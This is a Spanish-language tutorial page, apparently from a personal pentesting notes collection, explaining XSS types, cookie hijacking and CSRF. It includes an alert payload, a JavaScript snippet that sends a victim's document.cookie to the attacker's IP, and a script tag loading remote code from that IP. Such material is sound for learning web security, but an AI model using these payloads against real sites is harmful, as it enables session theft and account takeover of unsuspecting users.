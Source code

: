 ```yaml
---
cover: https://i.ytimg.com/vi/HQUCYEr50wc/maxresdefault.jpg
coverY: 152
---
```


# Cross-Site Scripting (XSS)

## ¿Que es un Cross-Site Scripting (XSS)?¿Que tipos existen?

Las vulnerabilidades XSS, son inyecciones en el código JavaScript de una web en un campo con las etiquetas `<script></script>` que nos permiten ejecutar código JavaScript en la web.

Esta no es una vulnerabilidad que sea muy critica, pero puede derivarse en otras vulnerabilidades de más alta criticidad. Existen diferentes tipos de XSS:

* **Reflected XSS** (XSS Reflejado)**:** Este tipo de XSS, es el más simple ya que se ejecuta cuando la web recibe los datos en una solicitud HTTP. Ejemplo:

```http
http://myshop.com/?search=<script>alert('XSS')</script>
```

* **Stored XSS** (XSS Almacenado): Esta variante, se conoce como XSS persistente, ya que el script malicioso se encuentra almacenado en la web, y cada vez que un usuario la visita, dicho script se ejecuta
* **DOM-based XSS** (XSS basado en DOM): En el caso del XSS basado en DOM ocurre cuando el código malicioso se inyecta directamente en el DOM (Modelo de Objeto del Documento) de la página web

## Cookie Hijacking

El cookie hijacking, es una técnica mediante la cual se obtiene una cookie de otro usuario, para posteriormente, poder ser autenticado como el sin proporcionar credenciales validas, consiguiendo así secuestrar la sesión del otro usuario. Por ejemplo, imagina que tienes un usuario sin privilegios, y te das cuenta de que en la web existe un XSS, pues mediante el código JavaScript, y con las etiquetas, podemos hacer que se nos proporcione la cookie de otro usuario que abra la web con el XSS implantado.

En el campo vulnerable pondríamos algo como esto:

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.0.12/?cookie=' + document.cookie);
request.send();
```

Con este código, se nos realizaría una petición a nuestra IP (Debemos de tener un servidor montado con anterioridad) en la que se añadiría la cookie del usuario que visite la pagina donde inyectamos el XSS. Y posteriormente, usar de nuestro lado esa cookie para poder autenticarnos como ese usuario.

{% hint style="info" %}
En vez de inyectar todo el código JavaScript en la página, podemos usar el atributo `src` en el código para referirse a un archivo que tengamos en nuestra maquina (Debes de tener un servidor HTTP) Ejemplo:

```javascript
<script src="http://192.168.0.12/archivo.js"></script>
```
{% endhint %}

## Cross-Site Request Forgery (CSRF)

Con el [CSRF](cross-sise-request-forgery-csrf.md), podemos hacer que en el caso de que por ejemplo no nos pudiésemos haber autenticado, hacer que el usuario que visita la web con el XSS, ejecute la petición o el código por nosotros.

{% hint style="info" %}
Puede que a pesar de tener la cookie, no nos podamos autenticar con ella, ya que algunas webs solo permiten tener una sesión activa por usuario
{% endhint %}





{% hint style="info" %}
Enlaces de Interés:

1. [https://blog.hackmetrix.com/xss-cross-site-scripting/](https://blog.hackmetrix.com/xss-cross-site-scripting/)
2. [https://owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)
3. [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
4. [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
5. [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
{% endhint %}

